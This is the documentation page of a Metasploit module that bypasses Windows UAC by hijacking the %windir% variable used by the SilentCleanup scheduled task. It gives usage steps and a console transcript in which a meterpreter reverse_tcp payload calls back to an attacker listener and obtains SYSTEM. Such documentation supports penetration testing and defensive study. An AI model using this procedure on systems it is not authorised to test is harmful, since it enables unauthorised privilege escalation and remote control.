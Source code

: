 ## Introduction

This module will bypass UAC on any Windows installation with Powershell installed.

There's a task in Windows Task Scheduler called "SilentCleanup" which, while it's executed as Users, automatically runs with elevated privileges.
When it runs, it executes the file %windir%\system32\cleanmgr.exe. Since it runs as Users, and we can control user's environment variables,
%windir% (normally pointing to C:\Windows) can be changed to point to whatever we want, and it'll run as admin. In order to work, the code must
be saved in a script file somewhere, it cannot be run directly from powershell or from the run dialog.

## Usage

1. Create a session on the target system under the context of a local administrative user.
1. Begin interacting with the module: `use exploit/windows/local/bypassuac_silentcleanup`.
1. Set the `PAYLOAD` and configure it correctly, making sure the architecture is correct.
1. If an existing handler is configured to receive the elevated session, then the module's
   handler should be disabled: `set DisablePayloadHandler true`.
1. Make sure that the `SESSION` value is set to the existing session identifier.
1. Invoke the module: `run`.

## Scenarios

```
msf5 > sessions

Active sessions
===============

  Id  Name  Type                     Information                               Connection
  --  ----  ----                     -----------                               ----------
  6         meterpreter x86/windows  DESKTOP-T2TGIHP\Carter @ DESKTOP-T2TGIHP  192.168.1.x:4444 -> 192.168.1.x:53685 (192.168.1.x)

msf5 > use exploit/windows/local/bypassuac_silentcleanup 
msf5 exploit(windows/local/bypassuac_silentcleanup) > set SESSION 6
SESSION => 6
msf5 exploit(windows/local/bypassuac_silentcleanup) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/local/bypassuac_silentcleanup) > set LHOST 192.168.1.xx
LHOST => 192.168.1.xx
msf5 exploit(windows/local/bypassuac_silentcleanup) > options

Module options (exploit/windows/local/bypassuac_silentcleanup):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   SESSION    6                yes       The session to run this module on.
   SLEEPTIME  0                no        The time (ms) to sleep before running SilentCleanup


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.55     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Microsoft Windows


msf5 exploit(windows/local/bypassuac_silentcleanup) > run

[*] Started reverse TCP handler on 192.168.1.xx:4444 
[+] Part of Administrators group! Continuing...
[*] Sending stage (206403 bytes) to 192.168.1.x
[*] Meterpreter session 10 opened (192.168.1.xx:4444 -> 192.168.1.x:55538) at 2019-06-20 15:00:14 -0400

meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > bg
[*] Backgrounding session 10...
msf5 exploit(windows/local/bypassuac_silentcleanup) > 
```
